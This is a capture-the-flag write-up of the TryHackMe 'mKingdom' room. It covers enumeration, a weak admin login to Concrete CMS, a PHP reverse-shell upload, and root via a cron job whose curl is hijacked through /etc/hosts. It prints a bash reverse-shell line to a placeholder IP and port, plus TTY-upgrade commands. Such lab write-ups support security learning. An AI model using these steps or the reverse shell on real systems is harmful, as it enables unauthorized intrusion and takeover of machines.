 ```yaml
---
title: THM mKingdom
author: hanhctf
date: 2024-06-20 12:00:00 +0700
categories: [Write-up, THM]
tags: []
toc: true
mermaid: true
---
```


# [**mKingdom**](https://tryhackme.com/r/room/mkingdom)

# Summary

> - Weak Credential in admin portal.
> - Hidden Creds in backup file and enviroment.  

## NMAP

```text
PORT   STATE SERVICE REASON  VERSION
85/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0H N0! PWN3D 4G4IN
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

## Web Enumeration

In homepage, nothing intertging.  
FUZZ directory with `ffuf`, we found `/app`.  
![](/commons/THM/mKingdom/0_app.png)  

Looking on `/app`.  
App is using `Concrete CMS 8.5.2`.  
Quick search about `Concrete CMS 8.5.2`.  
![](/commons/THM/mKingdom/1_CMS.png)

After read `Document`, we found login page url.  
![](/commons/THM/mKingdom/2_login.png)  

`Weak credential`. Login in to `dashboard` with weak credential.  

After check some functions in admin dashboard.
We can upload file to system. `File upload` vuln is first thing in my mind.  
After check some technique to by pass system, no luck.  
Continuous check other setting, we can add file `extensions` allow.  
Add `.php` and upload a `php reverse shell`.  
![](/commons/THM/mKingdom/3_extensions.png)  

![](/commons/THM/mKingdom/4_rev.png)  

![](/commons/THM/mKingdom/5_shell.png)  

Spawn a tty shell with python.  

```text
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```

[linpeas.sh](https://github.com/peass-ng/PEASS-ng). I've mentioned it many times, it's one of my favorite tools for finding ways to escalate privileges.  
Found interting `password`  
![](/commons/THM/mKingdom/6_toad.png)  

Change user and run `linpeas.sh` again.  

![](/commons/THM/mKingdom/7_mario.png)  

***GOT USER.TXT FLAG***

## Privilege Escalation

Countinuing run `linpeas.sh`. we discovered a bunch of interesting things but none of them were usable.  
![](/commons/THM/mKingdom/8_hosts.png)  

After deep enumeration, check cronjob with [pspy](https://github.com/DominicBreuker/pspy)  

![](/commons/THM/mKingdom/9_curl.png)  

Lookback, we can edit `/etc/hosts`.  
Creat a `/app/castle/application/counter.sh` in localhost.

```shell
#!/bin/bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

And run http server on port 85.
Change `/etc/hosts` with `localIP mkingdom.thm` and  
![](/commons/THM/mKingdom//10_root.png)

***GOT ROOT.TXT FLAG***
